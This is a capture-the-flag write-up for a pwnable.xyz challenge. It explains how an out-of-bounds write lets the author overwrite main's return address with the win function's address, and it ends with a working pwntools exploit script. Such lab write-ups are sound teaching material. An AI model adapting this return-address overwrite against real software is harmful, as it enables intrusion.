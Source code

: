 The meat of the challenge is this part of code:

![oob](https://i.imgur.com/4mT7e1A.png)  

`rcx` `rdx` and `rax` have our 3 arguments (with this order). 
As we can see, `rcx` and `rdx` are added and the result goes to: `[rbp+rax*8+var_60]`.  
Well, we have complete control of this address because `rax` contains our 3rd argument.  
That means:
* We control **what** we want to write (result = `rdx`+`rcx`)
* We control **where** to write it (`rax`)  
So, we can set the address of `win` function as the return address of `main`.

I set a breakpoint to see the `rbp` value when the result is stored (0x4008c3): **0x7fffffffdf50**
I set a breakpoint at the ret address of main (0x40090b): **`rsp` = 0x7fffffffdf58**
`0x7fffffffdf58 - 0x7fffffffdf50 = 0x8` which means if we can make this `[rbp+rax*8+var_60]` have the value `rbp + 0x8`,
we will have overwritten the ret address of main with `win`.  
Quick mafs there: 
> rax*8 - 0x60 =  8   
=> rax*8 - 96 =  8   
=> rax - 12 = 1 
=> rax = 13  

`payload = win_addr + 0 + 13`

```python
#!/usr/bin/python3
from pwn import *

ip = 'svc.pwnable.xyz'
port = 30002
filename = './challenge'

def pwn():
	r = remote(ip, port)
	e = ELF(filename, checksec=False)
	
	win = e.symbols['win']
	num1 = str(win) 
	num2 = ' 0'
	num3 = ' 13'
	payload = num1 + num2 + num3
	r.sendlineafter(':', payload)
	r.sendlineafter(':', 'random')
	r.recvuntil(': ')
	flag = r.recvall().decode('utf8')
	log.success(flag)
	
pwn()
```
